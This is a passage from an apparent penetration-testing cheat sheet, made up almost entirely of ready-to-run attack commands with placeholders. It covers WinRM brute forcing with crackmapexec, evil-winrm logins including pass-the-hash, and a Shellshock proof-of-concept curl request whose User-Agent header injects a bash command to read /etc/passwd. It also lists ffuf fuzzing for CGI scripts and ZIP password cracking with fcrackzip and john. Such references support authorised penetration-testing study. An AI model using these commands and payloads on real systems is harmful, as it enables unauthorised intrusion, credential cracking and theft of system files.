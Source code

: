 ## HashCat


-----

# WINRM - 5985 - 5986

### Brute force

```
crackmapexec winrm <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
```

### Connecting

```
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
evil-winrm -i <IP> -u <USER> -H <HASH>
```

------

# Shellshock CGI

POC: ```curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <URL>/cgi-bin/<SCRIPT>```

### Found CGI scripts

```
ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGI-XPlatform.fuzz.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /home/liodeus/wordlist/SecLists/Discovery/Web-Content/CGIs.txt -u <URL>/ccgi-bin/FUZZ -t 50
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u <URL>/cgi-bin/FUZZ -e .sh,.pl,.cgi -t 100
```

------

## ZIP

```
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' <FILE.zip>

zip2john FILE.zip > zip.john
john --wordlist=<PASSWORDS_LIST> zip.john
```

## WordPress
